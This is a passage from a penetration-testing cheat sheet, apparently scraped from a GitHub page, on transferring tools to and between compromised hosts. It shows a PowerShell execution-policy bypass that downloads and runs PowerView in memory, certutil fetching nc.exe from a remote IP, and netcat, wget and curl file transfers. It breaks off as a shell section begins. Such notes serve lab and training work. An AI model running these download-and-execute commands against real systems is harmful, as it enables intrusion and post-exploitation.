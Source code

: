 ##### Executing code in memory 
```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

#### Curtutil

If you don't have powershell access:

```sh
certutil.exe -urlcache -split -f "http://10.10.14.17/nc.exe" c:\temp\nc.exe
```

### Windows to linux

Create a python server and get it from the linux machine:

On windows:
```sh
python -m SimpleHTTPServer 80
```
On linux:
```sh
wget http://<windows-machine-ip>/<file-name>
```
#### Netcat

In command prompt:
```powershell
C:\tools\practical_tools\nc.exe -nvlp 4455 > C:\Users\offset\Desktop\binary.exe
```

In linux machine:

```sh
nc -w <windows_ip_here> 4455 < binary.exe
```

### Linux to linux

#### Wget

```sh
wget 192.168.1.102:9999/file.txt
```

#### Curl

```sh
curl -O http://192.168.0.101/file.txt
```
## Interactive shells

### Semi-interactive
Getting a semi-interactive shells is simple:

